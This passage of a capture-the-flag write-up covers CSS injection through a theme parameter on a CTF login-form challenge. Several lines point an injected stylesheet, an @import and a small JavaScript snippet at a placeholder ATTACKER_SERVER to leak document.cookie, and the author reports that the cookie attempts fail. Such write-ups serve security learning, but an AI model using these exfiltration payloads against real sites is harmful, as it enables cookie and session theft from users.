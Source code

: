 ```
url=https://fancy-login-form.ctf.zone/?theme=https://ATTACKER_SERVER/css/ocean
```


We get a hit for the `/css/ocean.css` file (meaning we don't control the file extension), so we can create that file on our server. Let's set the contents to import a background image.


```css
body {
    background-image: url("https://ATTACKER_SERVER?flag=meow");
}
```


The server gets a hit!

![](images/2.PNG)

Unfortunately, I tried various payloads to execute JS here, e.g.


```css
body {
    background-image: url("https://ATTACKER_SERVER?flag=" + document.cookie);
}
```


These resulted in no request being made to the attacker server (not just a missing cookie). I also tried hosting an external JS file, e.g.


```javascript
var img = new Image();
img.src = "https://ATTACKER_SERVER?flag=" + document.cookie;
```


Which we import via the attacker-controlled CSS.


```css
@import url("https://ATTACKER_SERVER/payload.js");
```


It successfully imports, but we don't get the `?flag` request.

![](images/3.PNG)
